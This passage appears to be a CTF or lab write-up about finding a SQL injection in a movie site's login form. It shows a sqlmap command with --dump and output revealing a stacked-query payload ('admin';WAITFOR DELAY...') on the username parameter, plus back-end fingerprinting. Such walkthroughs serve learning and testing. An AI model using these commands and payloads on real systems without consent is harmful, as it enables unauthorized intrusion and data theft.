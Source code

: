 Whenever clicking on a movie a popup shows up. 

![](@attachment/Clipboard_2022-09-09-11-04-07.png)

At this time, I was 90% sure it's a SQL injection in either register or login. 

I tried it on register but failed, tried it on login and it was the there. Try evrything ALWAYS! all I did is to copy the request from burp to file and feed it to sqlmap. 

```bash
└─$ sqlmap -r reqlogin --batch --dump --risk=3 
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6#stable}                                                                                                                                                       
|_ -| . [.]     | .'| . |                                                                                                                                                                    
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:34:34 /2022-09-09/

.......
[11:35:13] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:35:25] [INFO] POST parameter 'username' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable 
it looks like the back-end DBMS is 'Microsoft SQL Server/Sybase'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'Microsoft SQL Server/Sybase' extending provided level (1) value? [Y/n] Y
[11:35:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:35:25] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:35:38] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: username (POST)
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: username=admin';WAITFOR DELAY '0:0:5'--&password=a
---
[11:35:57] [INFO] testing Microsoft SQL Server
[11:35:57] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[11:36:03] [INFO] confirming Microsoft SQL Server
[11:36:08] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2019 or 10 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.2.26
back-end DBMS: Microsoft SQL Server 2019
[11:36:08] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:36:08] [INFO] fetching current database

```
